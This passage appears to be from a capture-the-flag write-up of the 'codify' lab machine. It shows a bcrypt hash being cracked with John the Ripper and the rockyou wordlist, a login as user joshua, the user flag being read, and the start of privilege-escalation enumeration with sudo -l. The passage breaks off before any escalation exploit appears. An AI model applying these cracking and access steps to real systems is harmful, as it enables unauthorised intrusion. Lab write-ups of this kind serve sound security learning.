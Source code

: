 **We get the hash of joshua user:**
"\$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2"

"\$2a\$"

 is indicator of a  bcrypt format, so let’s see if joshua user has a weak password and then we are able to crack it:

```bash 
└─# john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 0.00% (ETA: 2024-02-03 13:40) 0g/s 8.571p/s 8.571c/s 8.571C/s ashley..111111
spongebob1       (?)     
1g 0:00:02:47 DONE (2024-01-14 16:49) 0.005985g/s 8.062p/s 8.062c/s 8.062C/s 
```

The attack based on the rockyou dictionary worked, and now is time  to connect to the victim machine using joshua credentials

```bash 
joshua@codify:~$ whoami
joshua
joshua@codify:~$ ls -la
total 40
drwxrwx--- 4 joshua joshua 4096 Jan 13 22:54 .
drwxr-xr-x 4 joshua joshua 4096 Sep 12 17:10 ..
-rw-rw-r-- 1 joshua joshua  515 Jan 13 22:54 123.py
lrwxrwxrwx 1 root   root      9 May 30  2023 .bash_history -> /dev/null
-rw-r--r-- 1 joshua joshua  220 Apr 21  2023 .bash_logout
-rw-r--r-- 1 joshua joshua 3771 Apr 21  2023 .bashrc
drwx------ 2 joshua joshua 4096 Sep 14 14:44 .cache
drwxrwxr-x 3 joshua joshua 4096 Jan 13 22:54 .local
-rw-r--r-- 1 joshua joshua  807 Apr 21  2023 .profile
-rw-r----- 1 root   joshua   33 Jan 13 22:37 user.txt
-rw-r--r-- 1 joshua joshua   39 Sep 14 14:45 .vimrc
joshua@codify:~$

```

**Let’s get the flag:**

```bash 
joshua@codify:~$ cat user.txt 
c40aa75f9bc93d5ea9b7b5af934bb03c
joshua@codify:~$
```

## PRIVILEGE ESCALATION

I like to start with some basic enumeration commands like **sudo -l** to see if joshua user can execute some command that just root can run

```bash 
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
